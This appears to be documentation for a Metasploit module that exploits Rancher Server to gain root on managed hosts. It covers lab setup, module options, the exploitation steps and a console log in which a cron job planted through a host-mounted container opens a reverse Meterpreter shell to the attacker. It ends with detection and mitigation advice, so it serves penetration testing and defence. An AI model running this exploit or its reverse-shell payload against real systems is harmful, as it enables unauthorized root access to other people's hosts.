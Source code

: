 # Vulnerable Application
Utilizing Rancher Server, an attacker can create a docker container
with the '/' path mounted with read/write permissions on the host
server that is running the docker container. As the docker container
executes command as uid 0 it is honored by the host operating system
allowing the attacker to edit/create files owned by root. This exploit
abuses this to creates a cron job in the '/etc/cron.d/' path of the
host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

Use `check` with verbose mode to get a list of exploitable Rancher
Hosts managed by the target system.

## Rancher setup
Rancher is deployed as a set of Docker containers. Running Rancher is
as simple as launching two containers. One container as the management
server and another container on a node as an agent.

This module was tested with Debian 9 and CentOS 7 as the host operating
system with Docker 17.06.1-ce and Rancher Server 1.6.2, all with
default installation.

### Install Debian 9
First [install Debian 9][1] with default task selection. This includes
the "*standard system utilities*".

### Install Docker CE
Then install a supported version of [Docker on Debian system][2].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Rancher Server (Management)
I recommend doing a ['Rancher Server - Single Container (NON-HA)'
installation][3].

If Docker is installed, the command to start a single instance of
Rancher is simple.

```bash
# TL;DR
sudo docker run -d --restart=unless-stopped -p 8080:8080 rancher/server
```

If all is passing navigate to `http://[ip]:8080/`. You should see the
Rancher Server UI web application.

### Rancher Host (Agent)

Add a [new host][4] to Rancher Server so that the Docker host can be managed.

**Set Host Registration URL**

The first time that you add a host, you may be required to set up the
Host Registration URL.

* Navigate to Admin / Settings (`http://[ip]:8080/admin/settings`)
* Check if `"http://[ip]:8080/"` is set 
* Click on Save.

**Add new host**

* Navigate to Infrastructure / Hosts (`http://[ip]:8080/env/1a5/infra/hosts`)
* Click on Add Host
* Copy the command from Point 5 (and remove sudo prefix)
  `docker run --rm --privileged -v /var/run/docker.sock:/var/run/docker.sock -v /var/lib/rancher:/var/lib/rancher rancher/agent:v1.2.2 http://[ip]:8080/v1/scripts/XXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXX`
* Paste and run the command on the host

The new host should pop up on the Hosts screen within a minute.

# Exploitation
This module is designed to gain root access on a Rancher Host.

## Options
- CONTAINER_ID if you want to have a human readable name for your container, otherwise it will be randomly generated.
- DOCKERIMAGE is the local image or hub.docker.com available image you want to have Rancher to deploy for this exploit.
- TARGETENV this is the target Rancher Environment. The default environment is `1a5`.
- TARGETHOST is the target Rancher Host. The default host is `1h1`.

By default access control is disabled, but if enabled, you need API
Keys with at least "restrictive" permission in the environment.
See Rancher docs for [api-keys][5] and [membership-roles][6].

- HttpUsername is for your Access Key
- HttpPassword is for your Secret Key

Advanced Options
- TARGETURI this is the Rancher API base path. The default environment is `/v1/projects`.
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/rancher_server
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs 
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/rancher_server
msf exploit(rancher_server) > set RHOST 192.168.91.111
RHOST => 192.168.91.111
msf exploit(rancher_server) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(rancher_server) > set LHOST 192.168.91.1
LHOST => 192.168.91.1
msf exploit(rancher_server) > set VERBOSE true
VERBOSE => true
msf exploit(rancher_server) > check

[+] Rancher Host "rancher" (TARGETHOST 1h1) on Environment "Default" (TARGETENV 1a5) found <-- targeted
[*] 192.168.91.111:8080 The target is vulnerable.
msf exploit(rancher_server) > exploit

[*] Started reverse TCP handler on 192.168.91.1:4444
[*] Setting container json request variables
[*] Creating the docker container command
[+] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[+] The docker container has stopped, now trying to remove it
[+] The docker container has been removed.
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (40747 bytes) to 192.168.91.111
[*] Meterpreter session 1 opened (192.168.91.1:4444 -> 192.168.91.111:49948) at 2017-07-27 22:18:00 +0200
[+] Deleted /etc/cron.d/wlHVKGMA
[+] Deleted /tmp/jxKUxUyN

meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```
## Exploit Detection
Rancher Server has an [audit log][7]. While running this module two
events (create and delete) were logged. Even though the container is 
deleted, its still able to be viewed from the link in the audit log.

## Mitigation
* Do not deploy a Rancher Host on the same host where the Rancher
  Server is. Your entire rancher infrastructure is in [danger][8].
* Only allow trusted users to have more permissions than read-only.

Docker protection such as Username Namespaces could not be applied
because Rancher Agents run as a privileged container.


[1]:https://www.debian.org/releases/stretch/amd64/index.html.en
[2]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[3]:https://rancher.com/docs/rancher/v1.6/en/installing-rancher/installing-server/#launching-rancher-server---single-container-non-ha
[4]:https://rancher.com/docs/rancher/v1.6/en/hosts/#adding-a-host
[5]:https://rancher.com/docs/rancher/v1.6/en/api/v2-beta/api-keys/
[6]:https://rancher.com/docs/rancher/v1.6/en/environments/#membership-roles
[7]:https://rancher.com/docs/rancher/v1.6/en/rancher-services/audit-log/
[8]:https://rancher.com/docs/rancher/v1.6/en/faqs/troubleshooting/#help-i-turned-on-access-controldocsrancherv16enconfigurationaccess-control-and-can-no-longer-access-rancher-how-do-i-reset-rancher-to-disable-access-control
[9]:https://rancher.com/docs/rancher/v1.6/en/installing-rancher/selinux/
